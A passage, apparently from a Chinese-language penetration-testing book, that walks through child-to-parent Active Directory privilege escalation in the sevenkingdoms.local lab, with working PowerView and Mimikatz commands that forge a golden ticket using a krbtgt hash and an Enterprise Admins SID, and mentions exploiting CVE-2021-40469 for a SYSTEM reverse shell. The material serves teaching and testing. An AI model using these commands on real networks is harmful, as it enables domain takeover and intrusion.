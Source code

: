 图 6.28 – 成功利用 CVE-2021-40469，在域控制器上获得反向 Shell 并以 SYSTEM 身份执行

接下来，我们将讨论从子域到父域的权限提升问题。同时，我们还将简要讨论 PAM 信任和堡垒域的概念。

## 子域/父域特权提升

在之前的一次攻击中，我们能够导出 `north.sevenkingdoms.local` 域的 `ntds.dit`。现在，我们可以在伪造的票证中添加额外的 SID，以便提升特权到父域。为了成功伪造票证，我们需要两个域的 SID —— 金票证的 krbtgt 哈希值和跨域票证的信任密钥。以下命令将找到域 SID，并借助 Mimikatz 伪造金票证：

```
Get-DomainSID -Domain north.sevenkingdoms.local
Get-DomainSID -Domain sevenkingdoms.local
kerberos::golden /user:Administrator /domain:north.sevenkingdoms.local /sid:S-1-5-21-3600105556-770076851-109492085 /sids:S-1-5-21-4243769114-3325725031-2403382846-519 /krbtgt:35400f589a2614495ab9cfcdd0b89eba /ptt
```

`/sid` 是子域的 SID。`/sids` 是父域中 `Enterprise Admins` 的 SID。结果是可以通过 CIFS 访问父域中的域控制器：

![图 6.29 – 伪造的金票证提供对父域中域控制器的访问](img/B18964_06_29.jpg)
